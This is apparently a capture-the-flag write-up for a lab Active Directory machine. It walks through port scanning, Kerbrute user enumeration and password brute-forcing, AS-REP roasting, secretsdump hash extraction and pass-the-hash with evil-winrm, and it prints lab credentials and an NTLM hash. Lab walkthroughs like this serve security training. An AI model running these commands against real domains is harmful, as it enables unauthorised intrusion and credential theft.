

### Enumeration
  ```
    naabu -host <target-ip>
  ```

 ```This is a faster tool to detect open ports quickly. After getting open ports, use nmap to identify running services.```


  ```
Nmap 7.95 scan initiated Wed Apr 30 08:30:02 2025 as: /usr/lib/nmap/nmap --privileged -sV -Pn -p3389,389,455,80,139,88,135,53 -oN services.txt 10.10.31.26
Nmap scan report for 10.10.31.26
Host is up (0.44s latency).

PORT     STATE  SERVICE        VERSION
53/tcp   open   domain         Simple DNS Plus
80/tcp   open   http           Microsoft IIS httpd 10.0
88/tcp   open   kerberos-sec   Microsoft Windows Kerberos (server time: 2025-04-30 05:30:38Z)
135/tcp  open   msrpc          Microsoft Windows RPC
139/tcp  open   netbios-ssn    Microsoft Windows netbios-ssn
389/tcp  open   ldap           Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)
455/tcp  closed creativepartnr
445/tcp open  microsoft-ds?
3389/tcp open   ms-wbt-server  Microsoft Terminal Services
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 30 08:30:14 2025 -- 1 IP address (1 host up) scanned in 12.11 seconds

  ```

---
- Ok The domain name appear in ldap => **spookysec.local**
- To access => **spookysec.local\User**

---

### Enumerating Valid Usernames and Credentials
- we can enumerate valid usernames and perform password spraying using the powerful tool Kerbrute.

- you can install follow this link 
  **https://github.com/ropnop/kerbrute/releases**

- Enumerate Valid Usernames
  ```bash
  ./kerbrute userenum --dc 10.10.131.202 -d spookysec.local users.txt
  ```


- There are very important account 
  - svc-admin 
  - administrator 
  - backup 

- Bruteforce the Password of a Valid User **svc-admin**
 ```bash
  ./kerbrute bruteuser --dc 10.10.131.202 -d spookysec.local password.txt  svc-admin

  ```
```Success: You found valid credentials for svc-admin```


---
```After get username and password I used **xfreerdp3** to make remote connection by desktop```
```bash
xfreerdp3 /u:svc-admin /p:management2005 /:u<ip>
```

---


- There are another Attack called **AS-REP Roasting** which do not 

  require Kerberos pre-authentication. When this setting is disabled for 

  a user, it's possible to request a Kerberos AS-REP response containing an encrypted hash that can be cracked offline.
 by using: ```impacket => GetNPUsers.py```

  - create wordlist by valid user you collect them

  - use this command to see if user  requres Kerberos Pre-Authentication or not

    ```bash

    GetNPUsers.py spookysec.local/ -usersfile users.txt -no-pass -request

    ```


-  This is **Kerberos hash** that retrieve from the KDC called **Kerberos 5 AS-REP etype 23** and mode hash it **18200**
---


- I use my script to discover shares folders > check access > read content to make operation easily
you can find it here => 
```https://github.com/A-h-M-e-D1/Active_Directory/blob/main/Automated-Tools/Expsmb.py```

- result


- Take the encode value and decode it and then found


- after get new creditinals **backup:backup2517860** let's open remote connectin with this 

  ```
  xfreerdp3 /u:backup /p:backup2517860 /v:<ip>
  ```

---


```here we get the access into machine and the flag```


---

- ```next we need to escalate our privileges into **administrator** so let's try to dump hash by **sesecretsdump.py**```

```
sesecretsdump.py  spookysec.local/ backup:backup2517860@<target-ip>
```
```and here we get hashes```




- <b>The structure of this hashes is
  <username>:<RID>:<LM hash>:<NTLM hash>:::
  example:
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::</b>

- **administrator NTLM is <0e0363213e37b94221497260b0bcb4fc>**

- ```From this hash we can doing pass-the-hash by evil-winrm ```

```bash
 evil-winrm -i <target-ip> -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
```Yessss, we access into administrator account```


-  ```flaaaaaaag```


```
- username and password wordlists
**https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt**
**https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt**
```
